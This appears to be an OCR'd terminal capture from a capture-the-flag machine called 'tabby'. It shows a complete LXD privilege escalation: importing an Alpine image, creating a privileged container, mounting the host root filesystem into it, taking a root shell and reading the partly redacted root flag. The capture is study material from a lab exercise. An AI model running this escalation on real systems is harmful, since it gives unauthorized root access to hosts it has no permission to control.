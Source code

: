 ```shell 
 
alpine-v3.12-x86_64 100%[===================>]   3.05M   582KB/s    in 8.0s     
 
2020-08-03 15:24:27 (391 KB/s) - ‘alpine-v3.12-x86_64-20200803_2036.tar.gz’ saved [3202094/3202094] 
ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20200803_2036.tar.gz --alias newimage 
<-v3.12-x86_64-20200803_2036.tar.gz --alias newimage 
ash@tabby:~$ lxc image list 
lxc image list 
+----------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+ 
|  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE         | 
+----------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+ 
| newimage | 0a6777442dca | no     | alpine v3.12 (20200803_20:36) | x86_64       | CONTAINER | 3.05MB | Aug 3, 2020 at 3:27pm (UTC) | 
+----------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+ 
ash@tabby:~$ lxc init newimage ignite -c security.privileged=true 
lxc init newimage ignite -c security.privileged=true 
Creating ignite 
ash@tabby:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true 
<ydevice disk source=/ path=/mnt/root recursive=true 
Device mydevice added to ignite 
ash@tabby:~$ lxc start ignite 
lxc start ignite 
ash@tabby:~$ lxc exec ignite /bin/sh 
lxc exec ignite /bin/sh 
~ # id       
id 
uid=0(root) gid=0(root)
~ # cd /mnt/root/root 
cd /mnt/root/root 
/mnt/root/root # ip a       
ip a 
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00 
    inet 127.0.0.1/8 scope host lo 
       valid_lft forever preferred_lft forever 
    inet6 ::1/128 scope host  
       valid_lft forever preferred_lft forever 
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP qlen 1000 
    link/ether 00:16:3e:26:3c:36 brd ff:ff:ff:ff:ff:ff 
    inet 10.125.107.205/24 brd 10.125.107.255 scope global eth0 
       valid_lft forever preferred_lft forever 
    inet6 fd42:7448:c0ad:d9ec:216:3eff:fe26:3c36/64 scope global dynamic  
       valid_lft 3480sec preferred_lft 3480sec 
    inet6 fe80::216:3eff:fe26:3c36/64 scope link  
       valid_lft forever preferred_lft forever 
/mnt/root/root # cat root.txt 
cat root.txt 
3c4c9---REDACTED---5ffac
```